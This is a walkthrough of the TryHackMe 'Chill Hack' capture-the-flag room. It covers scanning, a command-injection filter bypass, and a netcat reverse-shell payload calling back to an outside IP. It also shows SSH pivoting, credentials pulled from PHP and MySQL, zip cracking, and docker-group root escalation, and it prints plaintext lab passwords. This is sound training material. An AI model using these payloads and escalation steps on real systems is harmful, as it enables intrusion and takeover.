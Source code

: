 # Chill Hack

**Room Link:** [https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>



A lot of commands ran will result in this page.

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Command Injection

Used this to find a way to bypass the filter. by adding a \ in the middle of the first command, it treats the command as a new line so it allows us to run any command we want.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)&#x20;



**Web**

```
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.186 1337 >/tmp/f
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u apaar /home/apaar/.helpline.sh
/bin/bash
/bin/bash
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Victim(apaar)**

```
netstat -at
curl localhost:9001
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Pivot

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

```
copy id_rsa.pub to /home/apaar/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 apaar@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Found credentials for mysql in one of the php files.

**Victim(apaar)**

```
cat /var/www/files/index.php
```

<figure><img src="../../.gitbook/assets/image (27) (6).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

```
mysql -u root -p webportal
Password: !@m+her00+@db
```

**Victim(mysql)**

```
SHOW DATABASES;
use webportal;
SHOW TABLES;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (11).png" alt=""><figcaption></figcaption></figure>



Both set of credentials work on the login page, both bring up this page.

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Used no password

**Kali**

```
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### Cracking Password Protected Zip Files

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
unzip backup.zip
Password: pass1word
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat source_code.php 
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

**Victim(apaar)**

<pre><code>su anurodh
<strong>Password: !d0ntKn0wmYp@ssw0rd
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

anurodh is apart of a docker group which the other user was not apart of, looking at gtfo bins theres a way to get a shell so I tried it and got root

**Link:** [https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell)

**Victim(anurodh)**

```
groups
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>









